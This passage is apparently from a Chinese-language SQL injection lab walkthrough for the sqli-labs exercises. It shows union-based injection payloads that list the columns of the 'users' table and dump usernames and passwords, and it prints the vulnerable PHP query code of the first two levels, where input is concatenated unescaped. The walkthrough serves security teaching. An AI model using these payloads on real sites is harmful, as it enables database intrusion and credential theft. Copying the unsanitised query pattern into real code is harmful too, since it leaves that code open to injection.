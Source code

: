 `?id=-1' union select 1,2,column_name from information_schema.columns where table_name='users' and table_schema='security' limit 0,1--+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721726931-3d36baf9-4942-4ce1-803c-af90bd4b9640.png)

直接打包输出：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721822533-6e113808-3f39-4b07-8253-c39fefee27d1.png)

到现在为止我们才知道user表名中的列名分别为`id`、`username`、`password`，最后爆破数据：

`?id=-1' union select 1,group_concat(username),group_concat(password) from users--+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641721914377-3c723e37-6ef2-4a12-8419-98a79056a9f2.png)

另外，SQLI的第二关是数字型注入，数字型和都是相对php而言的：

```php
第一关部分源码：
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
第二关部分源码：
// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
```











